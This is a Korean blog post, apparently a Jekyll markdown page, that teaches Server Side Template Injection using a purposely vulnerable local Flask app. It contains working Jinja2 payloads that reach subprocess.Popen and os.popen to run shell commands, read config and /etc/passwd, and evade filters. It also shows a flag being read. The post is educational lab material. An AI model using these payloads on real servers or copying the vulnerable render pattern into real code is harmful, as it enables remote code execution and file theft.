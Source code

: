```yaml
---
layout: post
title:  "SSTI(Server Side Template Injection) 취약점이란?"
tags: [SSTI]
excerpt: "SSTI(Server Side Template Injection) 취약점은 공격자가 서버측의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입 한 다음 서버 측에 실행되면서 생기는 취약점이며 웹 템플릿 엔진마다 사용되는 페이로드가 다릅니다."
---
```


SSTI(Server Side Template Injection) 취약점은 공격자가 서버측의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입 한 다음 서버 측에 실행되면서 생기는 취약점이며 웹 템플릿 엔진마다 사용되는 페이로드가 다릅니다.

* * *

## 웹 템플릿이란?

웹 템플릿 엔진은 웹 템플릿들과 웹 컨텐츠 정보를 처리하는 목적으로 설계된 소프트웨어를 뜻합니다.
 
__[웹 템플릿 엔진 종류](https://en.wikipedia.org/wiki/Comparison_of_web_template_engines)__

## SSTI 취약점을 이용한 템플릿 구분

![SSTI template payloads](/post-images/SSTI/SSTI-1/SSTI-template-payloads.png)

해당 사진으로 각 템플릿 엔진마다 쓰이는 구문을 다르게 하여 해당 서버에서 무슨 템플릿이 사용되는지 예측할 수 있습니다.

* * *

<br>

## SSTI 취약점 익스

확실한 이해를 돕기 위해 SSTI 취약점이 발생하는 소스코드를 만들었습니다.

<br>

### Python Flask 예제 소스코드

```py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    if request.method == 'GET':

        payloads = request.args.get('payloads','')
        payloads = payloads if payloads else "None"

        result_template = f"""
        <!DOCTYPE html>
        <html>
            <head>
                <meta charset="utf-8">
                <title>Server Side Template Injection</title>
            </head>
            <body>
                <p>SSTI : {payloads}</p>
            </body>
        </html>
        """

        return render_template_string(result_template)

app.run(host='0.0.0.0', port=8080)
```

해당 소스코드는 python으로 제작된 웹 프레임워크 flask를 사용하여 웹 서버를 만들게 되었는데 [Flask의 경우 사용자가 지정하지 않는 한 Jinja2템플릿 엔진](https://flask.palletsprojects.com/en/1.1.x/templating/)을 사용하게 됩니다.

<br>

### 웹 페이지 분석

* * *

어떠한 웹 사이트의 취약점을 발생시키기 위해서는 사이트에서 제공하는 기능들에 대해 분석해야 수월하므로

위의 소스코드를 실행시킨다음 메인 도메인인 ``localhost:8080`` 으로 접속할시에 

```py
requests.args.get('payloads', '')
```

해당 함수로 HTTP GET 방식으로 payloads 이름으로 데이터를 받게되는데 값이 존재하면 그대로 웹페이지에 반환하고 만약 값이 비어있다면 None를 반환해주게됩니다.

```py
payloads = request.args.get('payloads','')
payloads = payloads if payloads else "None"

result_template = f"""
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Server Side Template Injection</title>
    </head>
    <body>
        <p>SSTI : {payloads}</p>
    </body>
</html>
"""
```

<br>

* * *

<br>

### 시나리오

이제 flask로 제작된 웹 서버의 모든 기능을 파악했으니 

flag.txt(민감한 정보가 들어있는 파일)을 읽는것을 목표로 페이로드를 짜보겠습니다.

<br>

### SSTI 취약점 시도

* * *

먼저 flask에서 render_template_string함수를 이용하여 html를 출력하는 과정에
payloads 데이터를 Jinja2 문법으로 ``{% raw %}{{ 7*7 }}{% endraw %}``를 넣게 되면

![flask python ssti payloads 7*7](/post-images/SSTI/SSTI-1/python-flask-run-site-77-49.png)

예상했던 결과인 7*7이 연산된 49가 나오게됩니다.

그리고 SSTI 취약점을 이용하여 RCE(Remote Code Execution) 취약점과 연계하여 다양한 취약점을 발생시킬 수 있습니다.

```py
{% raw %}{{ 7*7 }}
{{ 7*'7' }}
{{ config }}
{{ config.items() }}
{{ ''.__class__ }}
{{ ''.__class__.__mro__ }}
{{ [].__class__.__base__.__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()[407]('cat flag',shell=True,stdout=-1).communicate() }}
{{ request.__class__ }}
{{ request["__cl"+"ass__"] }}
{{ request["__class__"]["__base__"] }}
{{ request["__class__"]["__base__"]["__subclasses__"] }}
{{ request["__class__"]["__base__"]["__subclasses__"]["__getitem__"] }}
{{ request["__class__"]["__base__"]["__subclasses__"]["__getitem__"][287]('ls', shell=True, stdout=-1).communicate()}}
{{ request|attr("__class__") }}
{{ request|attr("__cl"+"ass__") }}
{{ (request|attr("__class__")).__mro__ }}
{{ (request|attr("__class__"))["__mro__"] }}
{{ (config|attr("__class__")).__init__.__globals__['os'].popen('cat flag').read() }}
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}{% endraw %}
```

<br>

flask ssti 취약점의 경우 많이 나오는 클래스 메소드중 ``__class__``, ``__mro__``, ``__subclasses__``, ``__globals__``, ``__init__``, ``__getitem__`` 등의 많은 클래스의 기본 타입이 쓰이게 되는데

자세한 설명은 문서를 참고하면 좋습니다.

[Python3 Built-in Types Documentation](https://docs.python.org/ko/3/library/stdtypes.html#special-attributes)

[Python3 Data module Documentation](https://docs.python.org/ko/3/reference/datamodel.html)

<br>

시나리오대로 민감한 정보가 들어있다고 하는 서버측의 flag.txt 파일을 커멘드를 입력하여 읽기 위해

<br>

```py
{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[470] }}
SSTI: <class 'subprocess.Popen'>{% endraw %}
```

![flask Popen](/post-images/SSTI/SSTI-1/python-flask-run-site-__class__.png)

커멘드 실행 결과를 볼 수 있는 [<class 'subprocess.Popen'>](https://docs.python.org/3/library/subprocess.html#popen-constructor)를 찾은 다음

```py
{% raw %}{{ ''.__class__.__mro__[1].__subclasses__()[470]('type flag.txt',shell=True,stdout=-1).communicate() }}
SSTI: (b'FLAG{k1mmiswyz_bl0g_ssti_2XpL0it__attack}'){% endraw %}
```

> Windows 환경이므로 파일을 읽기 위해 type 명령어를 사용했지만 linux의 경우 cat , more등의 다른 명령어를 사용하면 됩니다.

``type flag.txt`` 명령어를 실행시키면

SSTI 에 나오는 결과처럼 flag.txt 파일을 읽은 결과가 나오게되면서 민감한 정보가 들어있다고 하는 파일을 읽을 수 있습니다.

<br>

* * *

### 마무리

SSTI의 경우 python 언어에서만 작동되는 것이 아닌
템플릿을 사용하는 모든 언어에서 특정 단어 필터링하지 않거나 안전하지 않은 코딩일 경우 취약점이 손쉽게 발생할 수도 있다.

이 블로그를 작성하면서 다양한 SSTI 페이로드에 관해 공부하게 되고
좀 더 알아가는 계기가 된 것 같다.

<br>

+ python Special Attributes References

    + [Python3 Special Attributes](https://docs.python.org/ko/3/library/stdtypes.html#special-attributes)

<br>

+ Jinja2 Built-in Functions References

    + [Jinja2 List Of Builtin Filters](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters)

<br>

+ Jinja2 SSTI Payloads References

    + [ssti-payloads](https://github.com/payloadbox/ssti-payloads)

    + [PayloadsAllTheThings Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

    + [Flask Config](https://flask.palletsprojects.com/en/1.1.x/config/)

    + [Server Side Template Injection jinja2](https://0x1.gitlab.io/web-security/Server-Side-Template-Injection/#jinja2)
